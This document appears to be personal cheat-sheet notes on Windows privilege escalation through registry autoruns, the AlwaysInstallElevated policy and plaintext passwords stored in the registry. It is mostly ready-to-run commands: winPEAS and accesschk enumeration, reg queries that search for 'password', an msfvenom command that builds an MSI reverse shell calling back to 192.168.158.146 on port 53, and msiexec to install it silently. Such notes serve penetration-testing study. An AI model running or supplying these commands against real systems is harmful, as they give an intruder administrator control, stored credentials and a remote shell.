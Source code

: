 ## Registry Exploits

### Autoruns

If modifiable can and run with elevated privelges, we can have a root shell

```cmd 
 .\winPEASany.exe quiet applicationsinfo
 reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
 ```
 ```cmd
 .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```
### Always Install Elevated

Need 2 things to be elevated
-HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer for the local system
and also for the current user
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

If any of them is missing you can use this


```cmd
 .\winPEASany.exe quiet windowscreds
or 
 reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
 reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Create a new msi reverse shell

```zsh
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.158.146 LPORT=53 -f msi -o reverse.msi
```
```cmd
 msiexec /quiet /qn /i reverse.msi
```

## Passwords

A lot of admins repeat passwords and store it insecurely, it is worth finding them
Windows itself stores a lot of passwords in plaintext and it is worth looking at them

The following command will search registry for keys and values that contain "password"

Manual

```cmd
 reg query HKLM /f password /t REG_SZ /s
 reg query HKCU /f password /t REG_SZ /s

```
Using winpeas as the above prints a lot of results and it is better to look at know locations 

```cmd
 .\winPEASany.exe quiet filesinfo userinfo
  
```
Windows runas commands allows users to execute commands as a different user if you have their password.
However, Windows also allows users to save passwords on the systems allowing the user to bypass this argument.
